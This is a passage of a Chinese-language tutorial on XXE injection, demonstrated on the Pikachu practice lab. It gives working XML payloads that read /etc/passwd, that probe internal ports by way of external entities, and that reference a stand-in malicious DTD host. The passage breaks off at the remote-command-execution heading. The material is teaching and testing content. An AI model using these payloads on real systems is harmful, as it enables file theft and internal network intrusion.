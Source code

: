 xxe.dtd 内容如下：

```xml
<!ENTITY evil SYSTEM "file:///etc/passwd">
```

上面先声明 xxe 参数实体，引入外部实体 "http://hacker.com/evil.dtd"，里面声明了一个叫 evil 的实体，用于读取 /etc/passwd 文件，最后在通过 \&evil; 来引用执行。  

在不同的语言中其支持协议还不一样，需要根据业务场景来实测，常见的协议有 file、http、ftp、https、except 等等。

### 危害：XXE 的常见攻击手段

下面介绍一些 XXE 漏洞的常见利用方法，并提供一些 payload 测试用例，测试仍以 Pikachu XXE 题目作为演示。

#### 1.内网攻击

XXE 支持 http 等 URL，所以同样可以产生与 SSRF 一样效果，对内网进行指纹探测、端口扫描、漏洞攻击等行为。

比如以下的 payload：

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "http://192.168.31.124:4444/test">
]>
<x>&xxe;</x></r>
```

由于不存在该端口，所以会出错误：

![图片1.png](https://s0.lgstatic.com/i/image/M00/8E/F5/CgqCHmAGWcqAO_PgAASscDOp6uA731.png)  
图 1 探测内网端口失败

成功的话，会返回空白，通过这种对比差异，可以判断是否利用成功：

![图片2.png](https://s0.lgstatic.com/i/image2/M01/06/D6/Cip5yGAGWdyAQDS2AANXkfuguok138.png)  
图 2 探测内网端口成功

#### 2.读取本地文件

通过 file:// 可以读取本地文件，造成敏感文件泄露：

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x>&xxe;</x>
```

输入上述 XML 提交后，成功读取到 /etc/passwd 文件内容：

![Drawing 2.png](https://s0.lgstatic.com/i/image2/M01/05/7B/CgpVE2AABv6AfyHcAAGL6fVMVng679.png)  
图 3 利用XXE漏洞读取 /etc/passwd

#### 3.远程执行命令

